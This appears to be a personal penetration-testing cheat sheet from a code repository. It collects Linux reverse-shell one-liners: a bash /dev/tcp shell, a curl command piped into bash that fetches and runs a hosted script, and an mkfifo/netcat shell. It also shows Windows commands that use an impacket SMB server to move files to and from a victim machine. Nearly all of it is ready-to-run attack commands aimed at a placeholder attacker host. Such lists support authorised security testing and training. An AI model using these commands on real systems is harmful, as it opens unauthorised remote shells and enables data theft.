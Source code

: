 # Cheat Sheet
Here are some commands, reverse shells, and small scripts that I keep for pen-testing.

## Quick Links
[Linux Privilege Escalation](LinuxPrivEsc/README.md) <br>
[Windows Privilege Escalation](WindowsPrivEsc/README.md)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

[Web Penetration Testing Checklist](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Reverse Shell
Alternate ways to gain shells.

### Linux
Using cURL
```bash
echo 'bash -i >& /dev/tcp/10.10.10.10/1337 0>&1' > rev.sh
python3 -m http.server 8080
nc -lnvp 1337
curl http://10.10.10.10:8080/rev.sh | bash
```
Probably the least-special-characters way (and with sh):
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1337 > /tmp/f
```

I used bash to call bash
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1337 0>&1'
```

### Windows
Using impacket-smbserver we can copy files to and from the victim machine. Start the impacket-smbserver:
On Kali machine:
```bash
impacket-smbserver leet .
```
To copy files from Kali to Windows:
```cmd
> copy \\<Kali IP>\leet\file.ext file.ext
```

To copy files from Windows to Kali:
```cmd
> copy file.ext \\<Kali IP>\leet\file.ext
```
